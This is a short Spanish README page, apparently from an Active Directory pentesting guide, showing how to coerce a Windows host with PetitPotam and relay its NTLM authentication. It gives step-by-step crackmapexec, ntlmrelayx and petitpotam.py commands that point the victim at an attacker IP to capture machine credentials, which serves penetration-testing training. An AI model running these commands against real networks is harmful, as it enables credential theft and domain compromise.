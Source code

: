 # Coaccionar a la víctima con PetitPotam

Si la vítima es vulnerable a petit potam podemos capturar las credenciales de la cuenta del equipo utilizando la técnica de NTLM RELAY:
[NTLM_relay](no_credentials/NTLM_relay/)

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam1.png?raw=true "NTLM relay petitpotam")

```Bash
# Comprobar si la víctima es vulnerable a petitpotam con crackmapexec
poetry run crackmapexec smb <Rango IP> -M petitpotam
# Ejecutamos petitpotam del repositorio de Github: https://github.com/topotam/PetitPotam
python petitpotam.py <IP atacante> <DNS del equipo vísctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam2.png?raw=true "petitpotam")

Resultado: (para ver las sesiones escribir "socks")

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam3.png?raw=true "NTLM relay petitpotam")

Utilizar las sesiones con proxychain como se muestra en elste punto:

[NTLM Relay](../no_credentials/NTLM_relay//README.md#Redirigir-las-credenciales)
